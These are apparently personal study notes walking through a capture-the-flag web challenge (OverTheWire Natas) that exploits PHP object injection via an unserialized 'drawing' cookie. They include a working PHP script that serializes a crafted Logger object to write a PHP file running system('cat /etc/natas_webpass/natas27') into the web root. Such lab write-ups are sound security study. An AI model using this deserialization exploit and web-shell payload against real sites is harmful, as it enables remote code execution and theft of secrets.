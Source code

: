 
2024-07-26 12:51

Source: #natas #web 

Tags: [[PHP]] 

PHP object injection through the serialized and uncivilized PHP functions can be super dangerous especially **if there's complete user control over what data is being serialized**

PHP code from the source shows that it is using object oriented programming as it has a class called `logger`

`__construct()` and `__destruct()` are defined in `logger` 
these double underscore functions are PHP magic object functions so they are necessary and built-in for PHP.

the code further draws from user given x and y coordinates, it does this via a drawing cookie 
source code looks like - 
```
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));  
}
```
`unserializing` data that we have complete control over is a huge vulnerability 
it's using our session ID as the actual location that it's loading the image file from

Since the website is using the session id to name `png` files we can try injecting code but it doesn't work 
on returning the cookies after drawing something we see a drawing cookie along with the session cookie. The drawing cookie is [[base64]] encoded + Url encoded in order to get around this we use - 
```
import base64
from urllib.parse import unquote
.
.
base64.b64decode(unquote(session.cookies['drawing'])))
```
in the output we get PHP serialized data

this class logger we can actually change what these variables are and what they do, and if we give that to the drawing cookie and the PHP application will like unserialize that data for us, it'll load up this logger and we'll try and write that message and we may be able to take advantage of what we actually write to a file and we can essentially get some code on the server and maybe run our own PHP code because we are writing to a file with this.

create a php file and copy the snippet of `logger `class 
```
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
        
        function __construct($file){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/winner.php";
//above we create a custom initalise message and log it to file we can access later
// we write to img because it is trying to load out of that image directory 

			// write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }
        
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }
        
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
$object = new Logger();
echo(base64_encode(serialize($object)));
?>
```
 
in order to run php directly on kali  - 
```
php7.0 file_name.php 2>/dev/null
```
the output will be a base64 string 
we set that b64 string to our drawing cookie 

after doing this we encounter a fatal error, we know that this means that our code successfully executed we know that we got that object to unserialized





### References
https://www.youtube.com/watch?v=IgxhtJQL-gY